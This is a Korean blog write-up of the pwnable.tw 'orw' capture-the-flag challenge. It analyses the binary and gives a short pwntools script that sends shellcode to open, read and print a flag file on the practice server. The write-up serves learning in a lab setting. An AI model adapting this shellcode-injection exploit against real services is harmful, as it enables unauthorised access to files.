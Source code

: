```yaml
---
layout: post
title: "[pwnable.tw] orw 풀이"
date: 2018-05-30 04:44
categories: "[Pwn]pwnable.tw"
tags: rotles98
---
```

>## orw [100 pts]
### Read the flag from `/home/orw/flag`.
### Only `open` `read` `write` syscall are allowed to use.
### `nc chall.pwnable.tw 10001`
### [orw](https://pwnable.tw/static/chall/orw)

- - -
# 0x00. 분석

{: refdef: style="text-align: center;"}
![file](/img/pwnable.tw/orw/01.png)
{: refdef}

32bit에 canary가 걸려있네여.

{: refdef: style="text-align: center;"}
![IDA](/img/pwnable.tw/orw/02.png)
{: refdef}

IDA로 열어보면 쉘코드를 달라합니다아.

문제를 다시 보면 `open`, `read`, `write`를 쓰라고 하네여.

- - -
# 0x01. 공격 방법

1. `open` : `/home/orw/flag`

2. `read` : `open`한 파일 읽기

3. `write` : `read`한 내용 출력

간단간단 합니다.

이제 쉘코드를 만들어 보내면 끝인데 `pwntools`의 `shellcraft`를 사용하겠습니다.

[<U>이 사이트</U>](https://docs.pwntools.com/en/stable/)를 뒤져보면 `pwntools`의 `shellcraft` 사용법도 나옵니다!

- - -
# 0x02. 익스플로잇

크기는 넉넉하게 `0x100`만큼 받았습니닷!

```python
from pwn import *
#context.log_level = "debug"

#HOST = "localhost"
HOST = "chall.pwnable.tw"
#PORT = 4444
PORT = 10001

s = remote(HOST, PORT)

elf = ELF("./orw")
#libc = ELF("./")
pause()

payload = asm(shellcraft.open("/home/orw/flag"))
payload += asm(shellcraft.read("eax", "esp", 0x100))
payload += asm(shellcraft.write(1, "esp", 0x100))

s.send(payload)

s.interactive()
```

